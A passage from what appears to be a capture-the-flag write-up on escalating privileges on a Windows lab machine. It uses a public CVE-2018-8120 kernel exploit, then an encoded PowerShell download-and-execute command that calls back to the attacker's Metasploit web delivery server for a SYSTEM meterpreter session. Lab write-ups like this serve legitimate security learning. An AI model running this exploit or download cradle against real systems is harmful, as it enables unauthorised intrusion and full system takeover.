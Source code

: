 ## Privilege escalation

Once on the box with meterpreter, the basic `getsystem` failed. I used an exploit for CVE-2018-8120 found here: <https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120>. This goes as follow:
```
meterpreter > upload x64.exe
[*] uploading  : x64.exe -> x64.exe
[*] Uploaded 92.00 KiB of 92.00 KiB (100.0%): x64.exe -> x64.exe
[*] uploaded   : x64.exe -> x64.exe
meterpreter > shell
Process 2240 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\Windows\Temp>x64.exe "whoami"
x64.exe "whoami"
CVE-2018-8120 exploit by @unamer(https://github.com/unamer)
[+] Get manager at fffff900c1ca3ca0,worker at fffff900c1c9dca0
[+] Triggering vulnerability...
[+] Overwriting...fffff800019fec38
[+] Elevating privilege...
[+] Cleaning up...
[+] Trying to execute whoami as SYSTEM...
[+] Process created with pid 2472!
nt authority\system
```

OK, so the exploit is working, now let's have a shell with this privileges. We can reuse the same web delivery metasploit configuration that is alread in place. Just execute the powershell directly with the exploit:
```
c:\Windows\Temp>x64.exe "powershell -nop -enc //5JAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADUALgAzADgALwBlAHYAaQBsAC4AcABzADEAIgApAAoA"
x64.exe "powershell -nop -enc //5JAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADUALgAzADgALwBlAHYAaQBsAC4AcABzADEAIgApAAoA"
CVE-2018-8120 exploit by @unamer(https://github.com/unamer)
[+] Get manager at fffff900c1cd4ca0,worker at fffff900c1cc9060
[+] Triggering vulnerability...
[+] Overwriting...fffff800019fec38

[*] 10.10.10.93      web_delivery - Delivering Payload
[*] http://10.10.15.38:8080 handling request from 10.10.10.93; (UUID: x7rzstfi) Staging x86 payload (180825 bytes) ...
[*] Meterpreter session 10 opened (10.10.15.38:8080 -> 10.10.10.93:49182) at 2018-07-13 10:43:11 +0200
```

And we see that metasploit is directly receiving a new meterpreter session. Let's interact with this one and get the flag:
```
msf exploit(multi/script/web_delivery) > sessions -i 10
[*] Starting interaction with 10...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 2520 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

```